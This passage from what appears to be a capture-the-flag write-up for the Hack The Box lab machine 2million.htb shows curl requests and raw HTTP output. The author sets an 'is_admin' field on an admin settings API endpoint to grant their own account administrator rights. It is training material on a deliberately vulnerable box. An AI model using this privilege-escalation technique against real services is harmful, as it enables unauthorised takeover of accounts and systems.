 It seems we are missing another parameter `is_admin`; in any case, the email parameter seems to have been recognized.

Let's add the `is_admin` parameter to the data body with a value of "false" to test.

```bash
curl -v -X PUT -d '{"email": "mr007@mail.com", "is_admin": "false"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 48
>
} [48 bytes data]
* upload completely sent off: 48 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:18:42 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [87 bytes data]
100 124 0 76 100 48 408 258 --:--:-- --:--:-- --:--:-- 670
* Connection #0 to host 2million.htb left intact
{
"status": "danger",
"message": "Variable is_admin needs to be either 0 or 1."
}
```

Okay, so the parameter does not take a boolean but a binary value (which ultimately amounts to the same thing). Let's set this value to 1 to give ourselves administrator privileges.

```bash
curl -v -X PUT -d '{"email": "mr007@mail.com", "is_admin": 1}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
```